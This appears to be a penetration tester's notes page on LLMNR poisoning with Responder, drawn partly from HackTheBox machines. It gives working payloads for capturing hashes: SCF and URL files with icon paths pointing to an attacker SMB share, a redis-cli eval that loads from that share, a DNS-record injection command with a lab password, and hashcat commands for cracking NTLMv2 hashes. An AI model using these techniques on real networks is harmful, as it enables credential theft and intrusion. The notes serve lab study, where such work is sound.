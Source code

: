 # LLMNR Poisoning

We basically poison DNS so that whenever the router does not know where to forward a connection to, it will forward it to us.&#x20;

### Responder:

```python
responder -I <tun0> -dw

##This will capture NTMLv2 Hashes that can cracked with hashcat.
```

Different strategies to get NTLMv2 Hashes:&#x20;

If there is anywhere where we can upload a file and they allow .scf files it means we can replace the file to callback to our SMB share being hosted by Responder which we can then crack.

#### SCF files and URL files:&#x20;

SCF:

```python
[Shell]
Command=2
IconFile=\\10.10.16.5\home\kali\driver.scf
[Taskbar]
Command=ToggleDesktop
```

URL:

```python
batcat not-virus.url
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: not-virus.url
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ [InternetShortcut]
   2   │ URL=anything
   3   │ WorkingDirectory=anything
   4   │ IconFile=\\192.168.49.100\%USERNAME%.icon
   5   │ IconIndex=1
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Notice the SMB share, we should switch the IP to the corresponding one.&#x20;

#### SSRF + Responder

Server-Side request forgery, allows an attacker to "induce" the application to make requests to places that it was intended to.&#x20;

![](<../../../.gitbook/assets/image (62).png>)

Here the application was some sort of Web Browser that allowed us intercept the traffic by pointing the website to make a request to our webserver using Responder.&#x20;

![](<../../../.gitbook/assets/image (64).png>)

Notice that when we provided the application with the url of our webserver on port 80 (ofc since https is encrypted we wont be able to do this). We were able to take advantage of the SSRF.&#x20;

#### Redis

```python
redis-cli -h VICTIM-p 6379 eval "dofile('//10.6.114.131//share')" 0
```

Same concept here, if we can point redis to point to our SMB share we will be able to capture hashes as well.&#x20;

#### Poisoning DNS and Default Cred Web request

During the machine called Intelligence from HackTheBox I was able to capture a hash because the user was making a request to all the websevers that started with the word "web"

More of the script that the user was using to authenticate was this:

```
──────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: downdetector.ps1   <UTF-16LE>
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Check web server status. Scheduled to run every 5min
   2   │ Import-Module ActiveDirectory 
   3   │ foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
   4   │ try {
   5   │ $request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
   6   │ if(.StatusCode -ne 200) {
   7   │ Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
   8   │ }
   9   │ } catch {}
  10   │ }

```

We can use the requests its making to the webservers that start with the name web\*

If we have valid credentials to the domain we can start our own and poison dns so that our own webserver starts with that name and we can capture the hash of the user Ted Graves.

![](../../../.gitbook/assets/2022-08-20\_15-22.png)![](<../../../.gitbook/assets/2022-08-20\_15-20 (1).png>)

```
// python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -r weblyethar -a add -t A -d 10.10.14.7 10.10.10.248
```

Notice that the -d is for us to provide our IP and then the IP of our target.&#x20;



### Cracking NTLMv2&#x20;

```python
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
```

hashcat -m 5600 hash.txt rockyou.txt -r rules/OneRuleToRuleThemAll.rule --debug-mode=1 --debug-file=matched.rule

<details>

<summary>Examples of LLMNR Poisoning and Responder Action.</summary>

[https://app.gitbook.com/s/8orEMrbW2JUz78N6Vl5G/enumeration/web-services](https://app.gitbook.com/s/8orEMrbW2JUz78N6Vl5G/enumeration/web-services) (Heist)

Driver HTB

</details>

